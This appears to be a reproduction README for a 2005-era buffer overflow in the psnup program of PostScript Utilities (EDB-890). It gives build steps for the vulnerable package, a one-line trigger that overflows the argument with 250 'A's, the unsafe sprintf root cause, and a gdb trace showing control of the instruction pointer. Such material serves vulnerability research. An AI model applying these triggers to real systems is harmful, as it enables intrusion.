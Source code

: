 # EDB-890

## Experiment Environment

CentOS 6.4

Ubuntu 14.04

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/EDB-890/psutils-p17.tar.gz

tar -xvf psutils-p17.tar.gz
cd psutils

make -f Makefile.unix
```

## Problems in Installation & Configuration

Change

```
PERL = /usr/local/bin/perl
```

to

```
PERL = /usr/bin/perl

```

## How to trigger vulnerability

```
./psutils/psnup -8 `perl -e 'print "A"x250'`
```
The optimization level of C compiler and if stack randomization is enabled will affect the number of A that will trigger the bug

## PoCs

[PostScript Utilities - psnup Argument Buffer Overflow](https://www.exploit-db.com/exploits/890/)

## Vulnerability Details & Patch

### Root Cause

```
pserror.c:82

              sprintf(bufptr, fmtbuf, s) ;
```

### Stack Trace

```
(gdb) info stack
#0  0x41414141 in ?? ()
#1  0x41414141 in ?? ()
#2  0x41414141 in ?? ()
#3  0x41414141 in ?? ()
```

## References
